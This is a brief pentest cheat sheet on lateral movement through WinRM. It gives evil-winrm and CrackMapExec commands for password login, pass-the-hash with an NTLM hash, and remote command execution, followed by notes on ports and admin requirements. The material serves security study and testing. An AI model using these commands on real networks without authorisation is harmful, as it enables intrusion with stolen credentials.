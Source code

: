 # Lateral Movement via WinRM

## Tools
- `evil-winrm` (Ruby)
- `CrackMapExec`

## Commands
```bash
# Basic WinRM login
evil-winrm -u admin -p Passw0rd! -i TARGET_IP

# Pass-The-Hash
evil-winrm -u admin -H NTLM_HASH -i TARGET_IP

# CrackMapExec (execute cmd)
crackmapexec winrm TARGET_IP -u admin -p Passw0rd! -x "whoami"
```
## Theory
- Requires WinRM service (5985/5986).
- Works with **local admin** creds.
